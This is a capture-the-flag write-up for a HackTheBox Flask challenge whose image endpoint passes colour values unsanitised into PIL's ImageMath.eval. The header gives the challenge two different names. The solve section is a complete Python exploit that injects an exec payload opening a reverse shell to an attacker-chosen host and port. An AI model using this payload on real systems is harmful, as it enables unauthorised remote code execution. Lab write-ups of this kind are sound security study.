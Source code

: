 ```yaml
---
title: Amidst_us
date: 2023-12-09 15:53:16 +0800
categories: [Hackthebox-Challenges, Amidst_us]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="../../assets/global/banner.png" alt="banner image">

## Spookifire is a python flask chalenge on Hackthebox

### Description:

this challenge takes an input an image value as base64 encoded and array of colors,

the problem is colors being passed to `eval` function without sanitizing.

### Source code:
<a href='https://mega.nz/file/aWARwZiS#FrD6HVAqXOlMduZKwF489ocscDsDjxSu0xOfyBDvvoE'>Download source code</a>

*zip password: `hackthebox`*


### Vulnerable code:
```python
from PIL import Image, ImageMath
# it's using PIL module to generate a new image but the problem is the `ImageMath.eval()` can execute python code.
```

```python
alpha = ImageMath.eval( # the vulnerable function
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}), <== here you can see that color being passed without sanitizing to eval().
					difference1(green_band, {color[1]})
					),
					difference1(blue_band, {color[2]})

				),
			)''',
		)

```

### Solve:

```python


import requests
import base64
import argparse

def send_post_request(image_path, local_url, ip):
    with open(image_path, "rb") as img_file:
        image_data = img_file.read()
        image_base64 = base64.b64encode(image_data).decode('utf-8')

    url = 'http://localhost:1337/api/alphafy'
    payload = "exec('import os,pty,socket;s=socket.socket();s.connect((\"" + local_url + "\"," + ip + "));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")')"
    print(payload)
    payload = {
        "image": image_base64,
        "background": [
            payload,
            2,
            162
        ]
    }

    headers = {
        'Content-Type': 'application/json',
    }

    response = requests.post(url, json=payload, headers=headers)

    if response.status_code == 200:
        print("Done!, wait don't tell me that you didn't receive your fucking reverse shell")
        print("Response:", response.text)
    else:
        print("This shit didn't work")
        print("Status Code:", response.status_code)
        print("Response:", response.text)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Send a POST request with an image base64 payload.')
    parser.add_argument('image_path', help='Path to the image file')
    parser.add_argument('local_url', help='revshell url')
    parser.add_argument('port', help='revshell port')
    args = parser.parse_args()

    send_post_request(args.image_path, args.local_url, args.port)


```







